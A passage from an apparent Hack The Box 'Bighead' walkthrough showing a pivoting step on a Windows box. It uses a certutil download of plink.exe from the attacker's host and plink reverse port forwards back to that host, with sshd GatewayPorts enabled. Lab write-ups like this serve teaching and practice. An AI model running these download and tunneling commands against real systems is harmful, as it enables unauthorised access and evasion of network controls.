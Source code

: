 _Transfer `plink.exe`_

First, we set up Python's SimpleHTTPServer to host the file. Then we pull the file using the following command.

```
certutil -urlcache -split -f http://10.10.15.127/plink.exe c:\users\nelson\appdata\local\temp\plink.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

_Set up SSH server_

In order for the local port to be forwarded to the remote port, `GatewayPorts` need to be enabled in `/etc/ssh/sshd_config`:

```
GatewayPorts yes
```

_Port forwarding with plink.exe_

Forward both ports: `2020/tcp` and `5080/tcp` with plink.exe like so.

```
start /min plink -R 2020:localhost:2020 -pw <password> root@10.10.15.127 -N
start /min plink -R 5080:localhost:5080 -pw <password> root@10.10.15.127 -N
```

Once that's done, we can give a shot at logging in to `nginx`'s account.

<a class="image-popup">
![9d3e1562.png](/assets/images/posts/bighead-htb-walkthrough/9d3e1562.png)
</a>

Holy cow. It works!

<a class="image-popup">
![30a18ac9.png](/assets/images/posts/bighead-htb-walkthrough/30a18ac9.png)
</a>
